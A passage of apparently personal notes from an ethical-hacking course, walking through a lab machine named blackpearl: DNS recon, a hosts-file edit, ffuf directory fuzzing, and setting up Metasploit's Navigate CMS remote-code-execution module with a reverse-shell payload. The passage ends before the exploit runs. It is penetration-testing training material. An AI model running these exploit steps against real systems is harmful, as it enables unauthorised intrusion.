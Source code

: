 `-r`  tag is used for localhost(our kali machine)

`-n`  for the machine we’re trying to scan for (blackpearl)

`-d`  for the domain(we can put whatever we want here for this task)

There’s a DNS pointer record for `blackpearl.tcm` 

We can add this to the `/etc/hosts` file using `nano /etc/hosts`.

![etc_hosts](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/b253e818-eb0f-48bf-828d-ca2e96c692d8)

`CTRL + X`  then `y` to save. Restart the browser and search for `http://blackpearl.tcm` 

We have access to a PHP info page.

Let’s use `ffuf`  to enumerate the host for any directories using `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ`.

There’s another directory `/navigate`. Access it through the browser:

![navigate_login](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/fe4a4241-2ed0-4746-8076-3ca979a4a339)

We have a CMS login page. Time to google for exploits and/or default credentials.

There’s a few exploits. Including [this](https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/), with instructions on how to exploit it using metasploit.

Boot up metasploit using `msfconsole`:

```bash
msf6 >  use exploit/multi/http/navigate_cms_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/navigate_cms_rce) > options

Module options (exploit/multi/http/navigate_cms_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /navigate/       yes       Base Navigate CMS directory path
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.4         yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(multi/http/navigate_cms_rce) > set rhosts 10.0.2.154
rhosts => 10.0.2.154
msf6 exploit(multi/http/navigate_cms_rce) > set vhost blackpearl.tcm
vhost => blackpearl.tcm
msf6 exploit(multi/http/navigate_cms_rce) > show targets

```